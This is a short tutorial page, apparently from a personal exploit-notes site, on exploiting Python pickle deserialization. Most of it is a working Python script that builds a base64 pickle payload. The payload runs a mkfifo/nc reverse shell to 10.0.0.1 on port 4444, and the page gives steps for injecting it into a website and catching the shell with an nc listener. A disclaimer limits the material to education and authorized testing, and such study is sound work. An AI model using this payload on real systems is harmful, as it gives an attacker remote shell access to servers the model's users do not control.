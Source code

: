```yaml
---
title: PICKLE RCE
date: 2023-05-05 02:35:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```


The python “pickle” module, that serializes and deserializes a Python object, is vulnerable to remote code execution. If the website uses this module, we may be able to execute arbitrary code.

# Exploitation
Below is the Python script (”mypickle.py”) to generate the payload to reverse shell.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
 ```

Now run this script to generate the Base64 payload.

```python
python3 mypickle.py
```
Copy the ourput base64 string and paste it to where the payload affects in website.
Before reloading the web page, start a listener in local machine.
```
nc -lvnp 4444
```
Then reload the page. We should get a shell in local terminal.

# References
* https://davidhamann.de/2020/04/05/exploiting-python-pickle/

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```